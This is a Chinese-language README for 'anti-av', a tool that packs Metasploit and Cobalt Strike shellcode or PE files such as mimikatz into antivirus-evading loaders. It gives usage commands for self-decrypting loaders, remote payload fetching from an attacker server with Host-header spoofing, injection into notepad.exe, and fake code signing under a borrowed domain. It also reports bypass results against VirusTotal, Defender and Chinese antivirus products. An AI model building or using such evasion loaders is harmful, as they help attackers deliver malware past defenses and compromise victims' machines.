 # ANTI-AV



## 免责

本工具学习使用，溯源到b1gcat肯定不是我。


## TODO

- [ ] 合入SysWhispers直接调用syscall asm
- [ ] 支持加载任意pe文件实现免杀


## 描述
* shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)

* 任意执行文件免杀加载，payload为pe格式

  ​	注意：执行免杀时，如果不带参数可以绕过av监测，带参数目前测试defender过不了，估计有参数黑名单）


## 安装

### Requirement

```bash
1、建议使用Mac或linux环境
2、安装交叉编译 mingw64
3、安装签名 openssl、osslsigncode
```

### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

Usage of ./anti-av:
  -domain string
        代码签名,需填写实际存在的域名 (default "baidu.com")
  -e    生成payload.e
  -ho string
        远程加载payload.e时,在GET请求头中替换host实现流量混淆 (default "wwww.baidu.com")
  -inject
        开启注入模式, shellcode注入到Notepad.exe
  -l string
        支持的加载类型: sc (default "sc,pe")
  -nosign
        关闭签名
  -os string
        OS: windows,linux (default "windows")
  -p string
        Payload: 
                1.支持 远程远程加载payload.e(参考payload.e生成实例)
                2.支持MSF payload generate by '-f raw'.
                3.支持CS raw payload.
                 (default "payload.bin")

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密   | 无                      | ./anti-av -p ~/Desktop/payload.bin                         |
| 远程加载 | 无                      | 1、生成payload.e<br />./anti-av  -e -p ~/Desktop/payload.bin    <br /><br />2、上传payload.e到公共下载服务<br />略<br /><br />3、制作加载器<br />./anti-av -p http://x.x.x.x/payload.e |
| 进程注入          | 会强制注入到notepad.exe | ./anti-av -p ~/Desktop/payload.bin -inject 或<br /><br />./anti-av -p http://x.x.x.x/payload.e  -inject |
| 加载pe文件 |  | ./anti-av -l pe -p ~/Downloads/mimikatz_trunk_x64/x64/mimikatz.exe |



## 注意

* cs生成raw格式64位 payload，需要勾选x64

  

## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 | window defender |
| ---- | ---- | ----------- | -------- | --------------- |
| 1/68 | √    | √           | √        | √               |
|      |      |             |          |                 |

